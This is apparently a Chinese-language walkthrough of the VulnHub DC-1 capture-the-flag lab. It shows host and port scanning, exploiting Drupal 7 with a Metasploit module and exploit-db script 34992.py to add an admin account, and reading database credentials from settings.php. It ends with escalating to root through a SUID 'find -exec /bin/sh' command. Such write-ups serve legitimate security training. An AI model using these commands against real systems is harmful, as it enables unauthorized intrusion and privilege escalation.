

# vulnhub系列——DC-1

# 一、信息收集

1. 先发现主机

   ``` shell
   sudo arp-scan -l
   ```

   

2. 发现主机，扫描一下端口

   ``` shell
   nmap -Pn -sC -sV 192.168.51.110
   ```

   

3. 可以看到主机开放了80端口和111端口，主机系统为Debian，中间件是Apache 2.2.22，80端口有一条指纹信息Drupal 7，用whatweb识别一下cms指纹

   

4. 扫描web目录，这里先看一下状态码200可以直接访问的目录

   ``` shell
   dirsearch -u http://192.168.51.110/ -e * -x 404,403
   ```

   

5. 发现php版本为5.4.45，cms为Drupal 7，找一下这个cms版本的漏洞信息，这里直接使用msf

   

# 二、getllshell

1. 这里使用2018年的漏洞模块，查看一下设置

   

2. 设置好目标IP，exploit开始攻击，直接拿到shell

   

3. ls发现flag1.txt，拿到第一个flag

   

4. 进入sites/default目录，ls，发现有一个settings.php文件，查看文件内容，发现第二个flag

   

5. 在settings.php中发现数据库账号和密码

   ``` shell
   'database' => 'drupaldb',   
   'username' => 'dbuser',   
   'password' => 'R0ck3t',   
   'host' => 'localhost',   
   'port' => '',   
   'driver' => 'mysql',   
   'prefix' => '',
   ```

   

6. 数据库只允许本地连接，需要获取交互式shell才可以连接数据库，发现有python2，直接使用pyhon反弹交互式shell

   ``` python
   python -c 'import pty; pty.spawn("/bin/bash")'
   ```

7. 在drupaldb数据库的users表中发现账号管理员密码，不过这个加密方式有点复杂

   ``` shell
   admin  $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR
   ```

8. 方法一是修改管理员的密码，方法二是重新添加一个具有管理员权限的账号 在exploitdb中有一个针对Drupal 7版本的攻击脚本，可以增加一个admin权限的用户账号，使用此方法简便了破解admin的密码，更直接，不过此脚本只对7.31以下版本有效。查看 Drupal版本

   ``` shell
   cat /var/www/includes/bootstrap.inc | grep VERSION
   ```

   

9. 确定版本为7.24，搜索攻击脚本

   ``` shell
   searchsploit Drupal
   ```

   

10. 使用脚本添加新的管理员账户

    ``` python
    python2 /usr/share/exploitdb/exploits/php/webapps/34992.py -t http://192.168.51.110 -u admin1 -p admin1
    ```

11. 攻击成功，增加新的管理员账户

    

12. 登录网站，在content模块下找到flag3

    

# 三、提权

1. 查看一下当前用户权限

   

2. 当前用户为www-data，权限较低，寻找root可执行文件

   ``` shell
   find / -user root -perm 4000 -print 2>/dev/nullfind / -perm -u=s -type f 2>/dev/null
   ```

   

3. 找到root可执行文件，路径为/usr/bin/find，cd进入该目录

   ``` shell
   cd /usr/bin/
   ls -l find
   ```

   

4. 提权

   ``` shell
   find test -exec '/bin/sh' \;
   ```

   

5. 提权成功，cd到/root目录，找到最后一个flag

   